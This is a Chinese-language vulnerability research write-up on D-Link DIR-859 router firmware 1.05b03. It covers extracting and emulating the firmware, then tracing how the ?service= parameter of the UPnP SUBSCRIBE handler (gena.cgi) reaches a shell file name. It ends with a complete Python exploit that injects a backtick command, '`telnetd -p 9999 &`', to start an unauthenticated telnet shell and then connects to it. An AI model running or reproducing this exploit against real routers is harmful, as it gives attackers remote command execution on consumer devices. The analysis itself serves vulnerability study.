

# 基础信息:
固件下载地址:[router_Firmware_collection/DLINK/DIR-859/DIR859Ax_FW105b03.bin at master · nightRainy/router_Firmware_collection (github.com)](https://github.com/nightRainy/router_Firmware_collection/blob/master/DLINK/DIR-859/DIR859Ax_FW105b03.bin)
```c
binwalk -Me DIR859Ax_FW105b03.bin
```
binwalk解压后，并未加密，得到了完整的文件系统


```c
sudo ./firmwalker-pro-max.sh '/home/iot/Desktop/D-link/DIR859Ax/squashfs-root' > '/home/iot/Desktop/D-link/DIR859Ax/firmwalker-pro-max.txt' 
```
用firmwalker-pro-max脚本跑一下，获取一些可疑或有用的信息


以最典型busybox查看其为32bit的大端序，MIPS架构的固件
```c
file busybox
```


并且无保护
```c
checksec --file=busybox
```


# 模拟固件:
用FirmAE模拟
```c
sudo ./run.sh -d DIR859Ax '/home/iot/Desktop/D-link/DIR859Ax/DIR859Ax_FW105b03.bin' 
```
模拟成功


针对模拟好的服务，对其web目录进行未授权检查，发现诸多疑似未授权界面，点点查看一下
```c
python3 unauth_bypass.py
```


查看了一下好像都需要session要不就是提示Authetication Fail!
# 分析固件:
首先在genacgi_main函数中，只要对比为SUBSCRIBE就会进入到sub_410020函数中
也就是说订阅事件


进入到sub_410020发现，在sprintf后通过xmldbc_ephp执行了run.NOTIFY.php


sprintf
第一部分是 "/htdocs/upnp/run.NOTIFY.php"，表示一个脚本的路径。
METHOD=SUBSCRIBE 表示请求的方法。
INF_UID=%s 将被 v2 替代，通常是一个唯一标识符。
SERVICE=%s 将被 a1 替代，表示服务的名称或类型。
SID=%s 将被 v3 替代，表示会话 ID。
TIMEOUT=%d 将被 v20 替代，表示超时设置。
SHELL_FILE=%s/%s.sh 将被 "/var/run" 和 a1 替代，表示要执行的脚本路径。

向上追溯了a1是指url后面”?service=“的参数


而通过v23把sprintf的内容传入到xmldbc_ephp函数后a3也就是我们要构造的报文，计算了长度又传入了sub_41420C函数中


又在sub_413810中处理了a3


而sub_413810中通过send函数发送了数据包给php执行


分析至此我们知道，发送到的php文件就是/htdocs/upnp/run.NOTIFY.php
根据我们要构造的报文发现在run.NOTIFY.php传入SUBSCRIBE后又经过了GENA_subscribe_new函数处理了数据


我们去查找一下这个函数是在哪里被定义的，发现是在gena.php中定义


该函数主要是用于订阅的


再去关注一下最后两行的两个函数，最终在GENA_notify_init函数中发现，它写了一个名为$shell_file的脚本，又删除了


看到这个参数我突然觉得关注重点应该一直放在这个$shell_file因为只有它相对来说算是我们可控的，结合一开始的sprintf，也知道a1是指url后面”?service=“的参数


那么这么说的话，这个service要执行的文件名我们用反引号扩起就看实现命令执行

# exp:
```python
# -*- coding: utf-8 -*-

import socket
import os
from time import sleep

# 漏洞利用代码
def httpSUB(server, port, shell_file):
    print('\n[*] 连接到 {host}:{port}'.format(host=server, port=port))
    
    # 创建一个 TCP/IP 套接字
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # 构造请求包
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + ":" + str(port) + "\n"
    request += "Callback: <http://192.168.0.1:31337/aaa>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    
    # 打印请求包
    print("[*] 发送负载")
    print("[*] 请求包:")
    print(request)
    
    sleep(1)
    
    # 连接到服务器并发送请求
    con.connect((socket.gethostbyname(server), port))
    con.send(request.encode())
    
    # 接收响应
    results = con.recv(4096)
    
    # 打印响应包
    print("[*] 响应包:")
    print(results.decode())
    
    sleep(1)
    print('[*] 正在运行 Telnetd 服务')
    sleep(1)
    print('[*] 正在打开 Telnet 连接\n')
    sleep(2)
    
    # 打开 Telnet 连接
    os.system('telnet ' + str(server) + ' 9999')

# 获取用户输入并调用函数
serverInput = raw_input('IP 路由器: ')  # 在 Python 2 中使用 raw_input()
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')

```
执行效果


